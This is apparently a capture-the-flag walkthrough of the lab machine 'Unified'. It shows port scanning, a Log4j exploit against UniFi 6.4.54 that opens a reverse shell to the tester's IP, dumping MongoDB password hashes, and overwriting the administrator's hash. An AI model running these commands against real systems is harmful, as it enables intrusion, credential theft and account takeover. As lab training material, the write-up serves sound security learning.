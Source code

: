 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Unified

## Summary



## Recon

### Port Scan

As always, let's start with a port scan. For efficiency, we will run a fast (`-T5 --min-rate 10000`) all-ports (`-p-`) scan first to find out which of them are open (`-open`), and then we will do a version scanning (`-sV`) as well as use Nmap's default scripts (`-sC`) against open ports only.

{% code overflow="wrap" %}
```bash
# Scanning all ports at maximum speed
$ sudo nmap 10.129.158.126 -T5 --min-rate 10000 -open -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 17:37 BST
Nmap scan report for 10.129.158.126
Host is up (0.038s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
8443/tcp open  https-alt
8843/tcp open  unknown
8880/tcp open  cddbp-alt

Nmap done: 1 IP address (1 host up) scanned in 8.10 seconds
# Version-scanning the specified ports at max speed plus using default scripts
$ sudo nmap 10.129.158.126 -T5 --min-rate 10000 -p 22,6789,8080,8443,8843,8880 -sC -sV
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
<SNIP>
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-title: Did not follow redirect to https://10.129.158.126:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
<SNIP>
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
8843/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
<SNIP>
8880/tcp open  cddbp-alt?
```
{% endcode %}

Based on Nmap's output, we can note some things down:

* There is an SSH port open (`22`) which might represent the way to access the box.
* There is an HTTP port (`8080`) which redirects to `https://10.129.158.126:8443/manage` which seems interesting.
* The port `6789` it seems to be used for an application called [UniFi Mobile Speed Test](https://help.ui.com/hc/en-us/articles/218506997-UniFi-Network-Required-Ports-Reference).
* The last port (`8880`) is related with a protocol called [CDDB](https://linux.die.net/man/3/cddb) and it's also related with the [UniFi Network](https://help.ui.com/hc/en-us/articles/218506997-UniFi-Network-Required-Ports-Reference).

### Web Server Enumeration

By visiting the redirected URL we found above, we land on the UniFi login page, which seems to also have its version: `6.4.54` (Figure 1).

<figure><img src="../../../.gitbook/assets/unified_home.png" alt=""><figcaption><p>Figure 1: The UniFi login page along with its version.</p></figcaption></figure>

## Foothold

### Log4j

Since we know the application's version, we can check if any known vulnerability exists. Doing that, reveals the [Log4j vulnerability](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) (Figure 2.1) as well as a [GitHub repository ](https://github.com/puzzlepeaches/Log4jUnifi)with a PoC[^1] (Figure 2.2).

<figure><img src="../../../.gitbook/assets/unified_google.png" alt=""><figcaption><p>Figure 2: Rsearching known vulnerabities for <code>UniFi 6.4.54</code>.</p></figcaption></figure>

The [SprocketSecurity article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) includes both an [exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#exploitation) and a [post-exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitation) route, but let's first try the PoC as it involves less steps. By opening a listener (Figure 3.1) and following the PoC's execution instructions (Figure 3.2), we indeed achieve RCE[^2] and secure our foothold (Figure 3.3).

```bash
# executing the PoC
sudo python3 exploit.py -u https://10.129.96.149:8443 -i 10.10.14.147 -p 1337
```

<figure><img src="../../../.gitbook/assets/unified_rce.png" alt=""><figcaption><p>Figure 3: Establishing our initial foothold.</p></figcaption></figure>

We can first upgrade our shell (Figure 4) and then read the `user.txt` flag within the home directory of the sole user of the box.

{% hint style="info" %}
Check more about shell upgrades [here](../../../tools/tools/shells/upgrade.md).
{% endhint %}

<figure><img src="../../../.gitbook/assets/unified_shell_upg.png" alt=""><figcaption><p>Figure 4: Upgrading our shell with <code>script</code>.</p></figcaption></figure>

```bash
unifi@unified:/unifi/data$ ls /home
michael
unifi@unified:/unifi/data$ cat /home/michael/user.txt
6ce<REDACTED>127
```

## Privilege Escalation

### Mongodb Exploitation

The [post-exploitation part](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationcrackinghashes) of the article refers to a mongodb DBMS[^3] from which we can dump password hashes from. Let's check if we can do that (Figure 5).

```bash
# Dumping the password hashes
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

<figure><img src="../../../.gitbook/assets/unified_dump.png" alt=""><figcaption><p>Figure 5: Dumping hashes from the mongodb database.</p></figcaption></figure>

Next, according to the [article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationshadowadmin), we can encrypt a new password (Figure 6.1) and use it to change the `administrator`'s password (Figure 6.2), so we can then use it to log in into the UniFi portal as a privileged user (Figure 7).

{% code overflow="wrap" %}
```bash
# Encrypting the new password
mkpasswd -m sha-512 Password123!
# Changing the administrator's password
mongo --port 27117 ace --eval 'db.admin.update({"_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$Zpy/bK4oaMXbjkwG$gPVsT76.dDkLpzgvEZm39v2kvkqfytwFzuzOHOW5MmkgFtN9UXDbg0FZ58hckZEq2g83mE9bWNqXDi6itVvd91"}})'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/unified_change_pass.png" alt=""><figcaption><p>Figure 6: Changing the <code>administrator</code>'s password.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/unified_admin_login.png" alt=""><figcaption><p>Figure 7: Logging in as <code>administrator</code>.</p></figcaption></figure>

### UniFi Enumeration

By enumerating the UniFi portal, we can find the `root`'s plaintext password (Figure 8) which we can use right away and read the `root.txt` flag 🚩 (Figure 9).

<figure><img src="../../../.gitbook/assets/unified_root_pass.png" alt=""><figcaption><p>Figure 8: Enumerating the <code>root</code>'s SSH password.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/unified_root.png" alt=""><figcaption><p>Figure 9: Reading the root flag.</p></figcaption></figure>

[^1]: Proof of Concept

[^2]: Remote Command Execution

[^3]: Database Management System

